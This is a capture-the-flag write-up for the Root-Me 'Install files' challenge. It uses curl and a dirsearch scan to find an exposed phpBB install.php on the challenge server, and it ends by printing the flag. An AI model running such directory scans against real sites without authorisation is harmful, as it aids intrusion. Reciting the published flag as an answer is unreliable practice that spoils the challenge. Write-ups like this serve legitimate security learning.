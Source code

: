 ```yaml
---
title: Install files
author: thanguyen165
date: 2023-01-02 07:00:00 +0700
categories: [Practice, rootme]
tags: [Web Exploitation, rootme]
---
```


* Points: 15
* Link: [https://www.root-me.org/en/Challenges/Web-Server/Install-files](https://www.root-me.org/en/Challenges/Web-Server/Install-files)

## Statement

> You know phpBB ?

## Solution

```sh
curl -i http://challenge01.root-me.org/web-serveur/ch6/
```
```html
<!--  /web-serveur/ch6/phpbb -->
```

Get into that path
```sh
curl -i http://challenge01.root-me.org/web-serveur/ch6/phpbb
```

Nothing here! Let's try [dirsearch](https://www.kali.org/tools/dirsearch/)
```sh
dirsearch -u  http://challenge01.root-me.org/web-serveur/ch6/
```

Still nothing! Wait the minute, why the ```/phpbb``` does not appear...? Let's check it
```sh
dirsearch -u  http://challenge01.root-me.org/web-serveur/ch6/phpbb/
```
```sh
200 -   12KB - /web-serveur/ch6/phpbb/install/
```

Get into it and you will have what you want
```sh
curl http://challenge01.root-me.org/web-serveur/ch6/phpbb/install/install.php
```

The flag is
```
karambar
```